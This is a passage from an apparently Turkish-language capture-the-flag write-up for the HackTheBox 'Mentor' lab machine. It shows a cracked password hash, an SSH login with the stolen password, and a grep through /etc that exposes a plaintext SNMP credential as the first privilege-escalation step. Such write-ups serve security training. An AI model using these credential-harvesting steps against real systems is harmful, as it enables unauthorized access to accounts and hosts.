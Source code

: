 ```bash
mentorquotes_db=#
```

svc kullanıcısının parolası kırıldı.

```
53f22d0dfa10dce7e29cd31f4f953fd8 : 123meunomeeivani
```

svc ile ssh bağlantısı kuralım.

```bash
root@acivik:~/Mentor# sshpass -p '123meunomeeivani' ssh svc@mentorquotes.htb
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Dec 13 04:45:54 PM UTC 2022

  System load:                      0.0
  Usage of /:                       65.8% of 8.09GB
  Memory usage:                     16%
  Swap usage:                       0%
  Processes:                        247
  Users logged in:                  0
  IPv4 address for br-028c7a43f929: 172.20.0.1
  IPv4 address for br-24ddaa1f3b47: 172.19.0.1
  IPv4 address for br-3d63c18e314d: 172.21.0.1
  IPv4 address for br-7d5c72654da7: 172.22.0.1
  IPv4 address for br-a8a89c3bf6ff: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.86.80
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:f754

  => There are 4 zombie processes.

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Dec 12 10:22:58 2022 from 10.10.14.40
svc@mentor:~$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: svc → james</b></span>

```bash
svc@mentor:/tmp$ find /etc -type f -exec grep -H 'Password' {} \; 2>/dev/null
/etc/ssh/ssh_config:#   PasswordAuthentication yes
/etc/ssh/sshd_config:#PasswordAuthentication yes
/etc/ssh/sshd_config:#PermitEmptyPasswords no
/etc/ssh/sshd_config:# PasswordAuthentication.  Depending on your PAM configuration,
/etc/ssh/sshd_config:# PAM authentication, then enable this but set PasswordAuthentication
/etc/ssh/sshd_config:PasswordAuthentication yes
/etc/snmp/snmpd.conf:createUser bootstrap MD5 SuperSecurePassword123__ DES
/etc/ssl/openssl.cnf:# Passwords for private keys if not present they will be prompted for
/etc/ssl/openssl.cnf:challengePassword		= A challenge password
/etc/ssl/openssl.cnf:challengePassword_min		= 4
/etc/ssl/openssl.cnf:challengePassword_max		= 20
/etc/ssl/openssl.cnf:[pbm] # Password-based protection for Insta CA
/etc/fwupd/remotes.d/lvfs-testing.conf:#Password=
```